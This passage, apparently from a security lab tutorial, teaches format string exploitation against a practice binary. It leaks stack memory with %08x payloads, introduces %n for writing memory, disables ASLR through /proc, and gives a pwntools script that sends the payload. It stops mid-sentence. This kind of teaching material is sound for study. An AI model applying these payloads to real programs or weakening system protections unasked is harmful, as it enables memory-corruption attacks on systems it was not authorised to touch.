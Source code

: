 Note the equivalence between formats.

Now, because we are able to select *any* higher address with this function and because the buffer is on the stack, sooner or later we will discover our own buffer.

``` {.code .bash}
$ ./format "$(python -c 'print("%08x\n" * 10000)')" 
```

Depending on your setup you should be able to view the hex
representation of the string "%08x\\n".

**Why do we need our own buffer?** Remember the `%n` format? It can be used to write at an address given as parameter. The idea is to give this address as parameter and achieve memory writing. We will see later how to control the value.

The next steps are done with ASLR disabled. In order to disable ASLR,
please run

``` {.code .bash}
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```

By trial and error or by using GDB (breakpoint on `printf`) we can determine where the buffer starts

``` {.code .bash}
$ ./format "$(python -c 'import sys; sys.stdout.buffer.write(b"ABCD" + b"%08x\n   " * 0x300)')"  | grep -n 41 | head
10:   ffffc410
52:   ffffcc41
72:   ffffcf41
175:   44434241
```


Command line Python exploits tend to get very tedious and hard to read when the payload gets more complex. You can use the following reference pwntools script to write your exploit. The code is equivalent to the above one-liner.

``` {.code .python}
#!/usr/bin/env python3
 
from pwn import *
 
stack_items = 200
 
pad = b"ABCD"
val_fmt = b"%08x\n   "
# add a \n at the end for consistency with the command line run
fmt = pad + val_fmt * stack_items + b"\n"
 
io = process(["./format", fmt])
 
io.interactive()
```

Then call the `format` using:
